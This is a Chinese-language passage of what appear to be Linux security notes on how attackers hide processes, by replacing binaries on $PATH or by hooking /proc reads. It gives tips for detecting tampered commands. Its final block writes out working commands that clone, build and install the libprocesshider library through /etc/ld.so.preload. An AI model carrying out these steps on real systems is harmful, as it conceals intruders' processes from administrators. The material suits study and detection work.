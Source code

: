 
```bash
# 查看进程关联文件
# CentOS 默认不安装这个命令
lsof -p <pid>
```

#### 进程隐藏

理解进程隐藏之前, 要先了解 Linux 系统指令的本质: Linux 的系统其实就是一个个**编译好的二进制文件**, 当用户执行指令时, 系统会从 **`$PATH`** 中从前往后读取, 取出其中的第一个**源文件**执行。如果攻击者修改并上传编译好的命令文件覆盖原有指令, 就可以达到偷梁换柱的效果。

>
> 例如用 `which` 这个指令就可以看某个命令具体的二进制代码在哪, 搜索规则同样是从 **`$PATH`** 里面读取:
>
> ![1-5.png](1-5.png)

当攻击者完成提权后, 可以通过多重手段来进行进程隐藏。

例如:

- 本地编译上传覆盖或软连接劫持;

  可以查看命令的修改、更改时间来判断该命令是否被更改，还可以对比可疑命令和正常命令的 MD5 值是否相同。

- HooK 系统调用: 
  
  > `/proc` 是一个虚拟文件系统, 是 VFS 的实现形式, `/proc` 中包含了内核信息, 硬件信息, 进程信息等, `ps` 等工具就是通过分析 `/proc` 文件系统中进程相关目录的信息获取进程信息汇总。

  > `ps` 的工作原理, 调用 `openat` 系统函数获取 `/proc` 目录的文件句柄，然后调用系统函数 `getdents` 递归获取 `/proc` 目录下所有文件信息（包括子目录），然后开始 `open` 函数打开 `/proc/` 进程 `pid/stat`,`/proc/PID/status` , `/proc/PID/cmdline` 文件开始获取进程信息，然后打印给你看。

  Hook 类型的进程隐藏为拦截或者迷惑 `ps` 等工具从 `/proc` 获取分析结果的过程, 而非其本身。最简单的方法就是利用环境变量 `LD_PRELOAD` 或者配置 `ld.so.preload` 文件以使恶意的**动态库**先于系统标准库加载。

```bash
# 下载的恶意的动态库文件
$ git clone https://github.com/gianlucaborello/libprocesshider.git
正克隆到 'libprocesshider'...
remote: Enumerating objects: 30, done.
remote: Total 30 (delta 0), reused 0 (delta 0), pack-reused 30
Unpacking objects: 100% (30/30), done.
$ cd libprocesshider/
$ ls
evil_script.py  Makefile  processhider.c  README.md

# 编译动态库文件,注意操作系统需要拥有gcc的编译环境
$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
$ ls
evil_script.py  libprocesshider.so  Makefile  processhider.c  README.md

# 移动文件libprocesshider.so到/usr/local/lib文件夹下
$ mv libprocesshider.so /usr/local/lib

# 把它加载到全局动态连接库
$ echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```
